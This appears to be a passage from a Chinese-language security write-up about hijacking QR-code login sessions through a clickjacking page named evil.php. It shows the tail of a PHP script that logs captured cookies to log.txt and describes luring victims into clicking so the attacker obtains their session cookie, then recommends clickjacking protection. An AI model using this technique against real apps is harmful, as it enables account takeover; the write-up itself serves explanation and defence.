 ```php+HTML
//如果登录成功写入log.txt
if (strpos($o,'Set-Cookie',0)) 
file_put_contents("log.txt",$msg,FILE_APPEND);
}

?>
```

之后将evil.php的链接发到APP内显眼的地方。当别人被吸引打开此链接并点击页面任意区域，我们即可获得他的新会话cookie。

evil.php 实际上充当了二维码登录的中间人，要防范此类攻击，确认登录页面需要防护点击劫持。
